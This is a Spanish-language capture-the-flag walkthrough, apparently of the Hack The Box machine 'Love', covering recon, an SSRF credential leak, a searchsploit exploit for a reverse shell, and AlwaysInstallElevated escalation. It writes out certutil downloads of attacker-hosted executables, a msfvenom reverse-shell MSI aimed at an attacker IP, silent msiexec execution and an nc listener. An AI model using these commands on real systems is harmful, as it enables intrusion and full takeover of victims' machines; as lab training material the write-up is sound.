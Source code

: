 ## Summary

Tags: #SQLI #SSRF #SearchSploit #WinPEAS #AlwaysInstalledElevated #Msfvenom #Windows #Apache #PHP #HTTPS #HTTP #FileTransfer #LinuxtoWindows #Dirbuster #ReverShell 

- IP -> 10.10.10.239
- Ports -> TCP (80, 135, 139, 445, 3306, 5000, 5440, 5986, 7680, 47001, 49664-70), UDP (idk)
- OS ->  Windows
- Services & Applications
    -  80 -> Apache httpd 2.4.46 

## Launchpad

-  [Launchpad](https://launchpad.net/ubuntu)
-  [WinPeas](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md)

## Recon

```bash 
❯ ping -c 1 IP              # Verificar conectividad con la maquina victima 
```

```bash 
❯ nmap -p- --open --min-rate 5000 -sS -vvv -Pn -n IP -oG AllPorts  # Escaneo de puertos a la IP

❯ nmap -p<Ports> -sCV IP -oN Targeted                              # Scripts y version de los puertos encontrados

❯ nmap --script http-enum -p80 IP    # Hacemos un escaneo de 'directorios' con un diccionario pequeño de 'nmap'
```

```bash 
❯ whatweb IP       # Miramos las tecnologias que corren en la web 

❯ dirb IP          # Encontramos la ruta del '/admin'

	# Podemos buscar vulnerabilidades con el nombre de la pagina 'Voting System' para ver si es un CMS
```

```bash 
❯ searchsploit votem system      # Mirar si existen exploits y probamos algunos exploits que nos llevan a la autenticacion en el 'votem system' como admin

❯ searchsploit -x php/webapps/49445.py
	# x = Examinar el contenido del archivo 

❯ searchsploit -m php/webapps/49445.py
	# m = Mover o traer el archivo a nuestra maquina de atacante 
```

## Otra manera

```bash 
# Con el puerto 443 abierto podemos enumerar los dominios 

❯ openssl s_client -connect IP:443     # Inspeccionar el certificado para poder encontrar mas dominios los cuales podemos agregar a la ruta '/etc/hosts' de nuestra maquina de atacante 
```

```bash 
# Encontramos en el dominio 'staging.love.htb' un escaner de archivos, el cual nos pide una URL. Por lo que colocamos la de nuestra maquina victima para probar.


❯ python3 -m http.server 80      # Creamos un servidor para recibir la peticion 


# Despues, hacemos peticiones desde la web hacia su 'localhost' por lo que se puede observar que existe un SSRF. Hacemos peticiones a los demas puertos http que encontramos en el escaneo con 'nmap' y en el 5000 encontramos un usuario y una passwd. 

# Nos dirigimos al 'panel admin' y colocamos las credenciales 
```

## User

```bash 
# Una vez dentro del panel de 'votem system' buscamos el exploit en 'searchsploit' que nos ayudara a hacer una 'revershell' con un usuario 'autenticado'. Usamos el exploit en 'python', modificamos los parametros que nos pide y lo ejecutamos. 
```

```bash 
# Una vez dentro buscamos la primer flag llamada 'user.txt' en el desktop del usuario 
```

```bash 
# Para buscar una forma de escalar privilegios es usando la herramienta de 'WinPeas' que lo podemos descargar desde la siguiente URL:

❯ https://github.com/peass-ng/PEASS-ng/releases/tag/20240728-0f010225
```

```bash 
# Compartimos el archivo a la maquina Windows 

❯ certutil.exe -f urlcache -split http://IP-Atacante/winPeas.exe winPeas.exe # Maquina victima descargaremos el ejecutable

❯ python3 -m http.server 80       # Maquina atacante creamos un servidor para compartir el ejecutable
```

## Root

```bash 
❯ winPeas.exe    # Ejecutamos el archivo para buscar las vulnerabilidades en Windows 
```

```bash 
# Depues de ejecutar el 'WinPeas', se observa que encuentra 'AlwaysInstalledElevated' donde:
	AlwaysInstalledElevated set to 1 in HKLM!
	AlwaysInstalledElevated set to 1 in HKCU!

# Podemos ir al recurso de 'hacktricks.xyz' para abusar de eso.
```

```bash 
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.53 LPORT=443 --platform windows -a x64 -f msi -o reverse.msi 

	# p = Payload 
	# platform = Plataforma de Windows 
	# a = Arquitectura 
	# f = Formato 
	# o = Output 

# Con esto nos crearemos una revershell en nuestra maquina de atacante para abusar del binario 'msi'
```

```bash 
# Compartimos el archivo a la maquina Windows 

❯ certutil.exe -f urlcache -split http://IP-Atacante/reverse.msi reverse.msi # Maquina victima descargaremos el ejecutable

❯ python3 -m http.server 80       # Maquina atacante creamos un servidor para compartir el ejecutable
```

```bash 
❯ msiexec /quiet /qn /i reverse.msi           # Ejecutamos de esta manera el archivo 'msi' en la maquina victima 
```

```bash 
❯ rlwrap nc -nlvp 443                          # Nos ponemos en escucha para recibir la revershell y ahora somos 'NT Authority\System' 
```